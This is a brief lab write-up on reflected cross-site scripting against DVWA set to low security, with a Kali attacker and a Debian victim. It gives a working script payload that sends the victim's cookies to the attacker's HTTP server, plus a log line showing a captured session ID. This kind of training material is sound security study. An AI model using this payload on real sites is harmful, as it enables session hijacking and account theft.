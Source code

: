 # XSS Reflected - DVWA

**Environment:**  
- Attacker: Kali Linux (192.168.20.11)  
- Victim: Debian (192.168.20.12)  
- DVWA Security Level: Low  

---

## Steps

1. On Kali, start a simple HTTP server on port 8000:
   ```bash
   python3 -m http.server 8000

2. On Debian (victim), enter the following payload in DVWA XSS (Reflected) module:

   ```html
   <script>new Image().src="http://192.168.20.11:8000/?cookie="+document.cookie;</script>
3. Submit the form.


## Result

On Kali, the HTTP server logs the captured cookie:

```
192.168.20.12 - - [16/Aug/2025 15:39:27] "GET /?cookie=security=low;%20PHPSESSID=hn4oqhg5fhsjiatac6k33n9trb HTTP/1.1" 304 -
```

**Observation:**

* The payload executes immediately when the victim interacts with the malicious input.
* Cookies and session tokens can be captured by the attacker.
* Reflected XSS requires victim interaction (clicking a link or submitting a form).


